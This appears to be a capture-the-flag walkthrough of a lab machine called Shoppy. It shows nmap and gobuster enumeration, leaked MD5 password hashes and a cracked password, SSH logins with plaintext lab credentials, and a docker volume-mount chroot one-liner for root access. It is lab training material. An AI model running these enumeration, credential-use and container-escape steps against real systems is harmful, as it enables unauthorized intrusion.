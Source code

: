 ```bash
└─$ sudo nmap -sV -sC -Pn 10.10.11.180
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-10 19:34 EDT
Nmap scan report for 10.10.11.180
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.42 seconds
```

``` bash
sudo gobuster dir --url shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt

[sudo] password for kali: 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/10 20:00:04 Starting gobuster in directory enumeration mode
===============================================================
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]               
                                                               
===============================================================
2022/10/10 20:01:51 Finished
===============================================================



sudo gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t40 -u shoppy.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/10 19:58:20 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/10/10 20:07:34 Finished
===============================================================
                                                 
                                                 
  ```                                               


http://shoppy.htb/exports/export-search.json                                                 
__id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"

_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"

6ebcea65320589ca4f2f1ce039975995	md5	remembermethisway

username: jaeger
password: Sh0ppyBest@pp!


ssh jaeger@10.10.11.180 -p22               
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64


The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Oct 10 18:59:18 2022 from 10.10.15.4
jaeger@shoppy:~$ cat user.txt
a98001177c6133f350fca6376736e0e8

jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```